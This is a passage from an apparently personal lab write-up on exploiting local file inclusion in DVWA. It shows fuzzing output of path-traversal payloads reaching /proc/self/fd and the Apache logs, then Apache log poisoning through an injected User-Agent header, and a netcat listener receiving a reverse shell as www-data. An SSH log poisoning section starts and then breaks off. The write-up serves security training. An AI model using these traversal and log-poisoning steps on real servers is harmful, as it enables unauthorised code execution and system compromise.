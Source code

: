 ../../../../../../../../../proc/self/fd/8 [Status: 200, Size: 198449, Words: 19233, Lines: 1151]                                                                                                                       
../../../../../../../proc/self/fd/8 [Status: 200, Size: 198449, Words: 19233, Lines: 1151]                                                                    
../../../../../../../../proc/self/fd/8 [Status: 200, Size: 198449, Words: 19233, Lines: 1151]                                                                 
../../../../../../proc/self/fd/8 [Status: 200, Size: 198627, Words: 19251, Lines: 1152]                                                                       
../../../../../../../../../../../../../../../../../../proc/self/fd/8 [Status: 200, Size: 205644, Words: 19935, Lines: 1190]                                                                                            
/var/log/apache2/error.log [Status: 200, Size: 695691, Words: 71241, Lines: 3125]                                                                             
/var/log/apache2/access.log [Status: 200, Size: 214264, Words: 20835, Lines: 1240]                                                                            
```

### Log Poisoning apache
So to replicate this attack we need to give read permissions to other users (exclusively for the www-data user).

```
> sudo chmod 775 -R /var/log/apache2
```

Now I will try to open Apache access.log file via file1.php in browser

![apache_log](/assets/imgs/dvwa2/apache_log.png)

I intercept a new request pointing to the **apache.log** to inject malicious code

As you can see, I add a php command in the [User-Agent](https://www.redeszone.net/tutoriales/redes-cable/user-agent-navegador-identificar/) in such a way that it allows executing commands within the system.

In this case I add the ```ifconfig``` command.

![burp_apache](/assets/imgs/dvwa2/burp_apache.png)

But instead of executing commands what I do is gain access to the system by injecting code to obtain a shell.

![shell_apache.png](/assets/imgs/dvwa2/shell_apache.png)

I listen

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.105] from (UNKNOWN) [192.168.0.105] 59934
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
------

### Log Poisoning ssh
I start the ssh service.

```
> sudo service ssh start
```

I give full permissions to other users.

```
> sudo service chmod 777 -R /var/log/
```

I make a request to the file that saves the logs when one starts session by ssh.

![ssh_passwd](/assets/imgs/dvwa2/ssh_passwd.png)
```